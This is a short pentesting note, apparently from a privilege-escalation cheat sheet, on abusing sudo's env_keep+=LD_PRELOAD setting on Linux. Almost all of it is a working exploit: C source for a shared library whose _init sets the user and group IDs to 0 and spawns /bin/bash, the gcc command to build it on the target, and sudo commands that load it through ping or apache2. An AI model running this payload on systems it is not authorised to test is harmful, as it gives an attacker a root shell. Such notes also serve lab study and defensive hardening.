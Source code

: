 # LD_PRELOAD

when running `sudo -l` we see the following included in the output:

```
env_keep+=LD_PRELOAD
```

With this included, we can privesc with any sudo command via the following

shell.c

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

We compile it on the target

```bash
gcc -fPIC -shared -o /tmp/shell.so shell.c -nostartfiles
```

Examples:

```
# ping
sudo LD_PRELOAD=/tmp/shell.so ping

# apache2
sudo LD_PRELOAD=/tmp/shell.so apache2 restart
```
